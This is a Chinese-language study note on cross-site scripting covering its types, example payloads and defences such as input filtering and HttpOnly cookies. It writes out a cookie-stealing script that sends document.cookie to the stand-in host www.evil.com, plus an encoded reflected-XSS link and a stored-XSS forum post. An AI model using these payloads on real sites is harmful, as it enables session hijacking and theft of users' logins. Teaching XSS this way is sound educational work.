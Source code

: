 # Cross-site Scripting  跨站脚本攻击


<!-- TOC -->

- [Cross-site Scripting  跨站脚本攻击](#cross-site-scripting--跨站脚本攻击)
    - [基本原理](#基本原理)
    - [XSS 类型](#xss-类型)
    - [XSS Payload](#xss-payload)
        - [用于 Cookie 劫持的 Payload](#用于-cookie-劫持的-payload)
        - [如果进行反射型 XSS](#如果进行反射型-xss)
        - [如果进行存储型 XSS](#如果进行存储型-xss)
    - [防御手段](#防御手段)
    - [References](#references)

<!-- /TOC -->


## 基本原理
将可以加载脚本的代码（例如 `<script>`、`<img>` 等）注入到 DOM，实现加载恶意的脚本。


## XSS 类型
* 反射型 XSS
* 存储型 XSS
* DOM Based XSS


## XSS Payload
用以完成各种具体功能的恶意脚本，被称为 XSS Payload。XSS Payload 实际上就是 JS 脚本，或者其他 Flash 等富客户端脚本。

### 用于 Cookie 劫持的 Payload
1. payload 脚本  `http://www.evil.com/payload.js` 中有如下代码
    ```js
    var img = document.createElement('img');
    img.src = 'http://www.evil.com/log?' + encodeURIComponent(document.cookie);
    document.body.appendChild(img);
    ```
2. 只要上述代码在客户端被运行，则 `http://www.evil.com/log` 就可以获取到客户端的 cookie。
3. 下面通过反射型和存储型两种类型的 XSS 来运行 payload 脚本。

### 如果进行反射型 XSS
1. 输入信息时输入攻击性的 payload，或者诱导用户输入可以获取用户信息的 payload。
2. 假如网站 `www.foo.com` 的搜索功能有 XSS 漏洞，会把用户输入的内容直接添加到 DOM 中。
3. 例如用户通过在搜索框里输入 "你好"，会跳转到搜索结果页 `http://www.foo.com/search?word=%E4%BD%A0%E5%A5%BD`，并且页面上会显示："以下是 你好 的搜索结果"。
4. 这里假设网页直接把用户的输入内容添加到的 DOM 里而没有进行检查和编码。
5. 那么如果用户输入的是 "`<script>alert()</script>`"，在搜索结果页就会出现这个弹窗。
7. 同理，如果我们搜索 "`<script src="http://www.evil.com/payload.js"></script>`"，页面就会加载这个脚本。
7. 当然这个是我们自己搜索的，只会获得自己的 cookie。除非你诱导其他人搜索这么奇怪的一串字符。
8. 但是可以看到，如果直接访问 `http://www.foo.com/search?word=%E4%BD%A0%E5%A5%BD`，其实是和搜索 "你好" 一样的效果。所以，可以把 `<script src="http://www.evil.com/payload.js"></script>` 编码为 `%3Cscript%20src%3D%22http%3A%2F%2Fwww.evil.com%2Fpayload.js%22%3E%3C%2Fscript%3E`，在拼装出搜索结果页的 URL `http://www.foo.com/search?word=%3Cscript%20src%3D%22http%3A%2F%2Fwww.evil.com%2Fpayload.js%22%3E%3C%2Fscript%3E`。
9. 现在，只要诱导用户跳转到这个链接，就可以在搜索结果页加载 payload 脚本。
10. 如果当前用户此时在该网站为登录状态且保存了 cookie，则该 cookie 就会被 `payload.js` 发送到 `http://www.evil.com/log`。

### 如果进行存储型 XSS
1. 把 payload 直接存储到被攻击网站的页面中，诱导用户访问。
2. 假如网站 `www.foo.com` 的论坛有 XSS 漏洞，会将用户发帖中的 HTML 标签直接添加进 DOM 从而变得可执行。  
3. 直接把 `payload.js` 中的代码放在 `<script>` 标签里作为帖子内容的一部分发出去
    ```html
    <script>
    var img = document.createElement('img');
    img.src = 'http://www.evil.com/log?' + encodeURIComponent(document.cookie);
    document.body.appendChild(img);
    </script>
    ```
4. 只要有用户进入这个帖子，上述脚本就会获取用户的 cookie 并发送。


## 防御手段
1. 从上面的攻击可以看到，攻击显示注入恶意脚本，然后通过脚本进行破坏或者获取用户信息。
2. 因此防御手段可以从这两方面进行，也就是阻止恶意脚本注入，以及在注入后阻止破坏或获取用户用户信息。
3. 阻止注入的方式有两种：
    * 输入检查，过滤或者转码有危害的输入。
    * `X-XSS-Protection` 响应首部，浏览器会自动进行阻止。
4. 阻止获取用户 cookie 可以设置 `HttpOnly` cookie，这样会阻止通过脚本读取该 cookie。


## References
* [Content-Security-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy)
* [白帽子讲Web安全](https://book.douban.com/subject/10546925/)
* <a href="https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)">WASP</a>
